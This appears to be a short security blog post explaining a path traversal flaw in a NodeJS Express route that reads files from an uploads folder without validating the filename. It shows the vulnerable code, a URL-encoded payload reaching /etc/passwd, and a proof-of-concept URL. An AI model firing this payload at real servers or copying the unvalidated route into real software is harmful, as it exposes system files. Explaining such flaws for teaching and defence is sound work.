 ```yaml
---
layout: post
title:  "NodeJS - Path Traversal"
image: /assets/img/pathtrav/1.PNG
categories: [nodejs, path traversal, api]
---
```


## Bad Implementation of the Uploads Directory

#### Explaining the vulnerability

- The below `API` GET function receives the `filename` as parameter and 
  concatenates it with the file location directory (`_dirname`) inside the `finalPath` variable.

- After that the function read the file from the `finalPath` variable

- For `:filename` parameter there is no any user input / parameter validation so 
  the user can trigger path traversal

```javascript
app.get('/uploads/:filename', (req, res) => {

    finalPath = __dirname.concat("/uploads/").concat(req.params.filename)
    console.log(finalPath)
    fs.readFile(finalPath, 'utf8', (err, data) => {
        res.end(data);
    })
});
```

#### How it works

- payload

```javascript
%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

- URL

```javascript
http://target.local:4000/uploads/
```

- `finalPath` variable value

```bash
/var/www/api/uploads/../../../../../etc/passwd
```

#### Proof of Concept

```javascript
http://target.local:4000/uploads/%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

![image]( /assets/img/pathtrav/1.PNG)

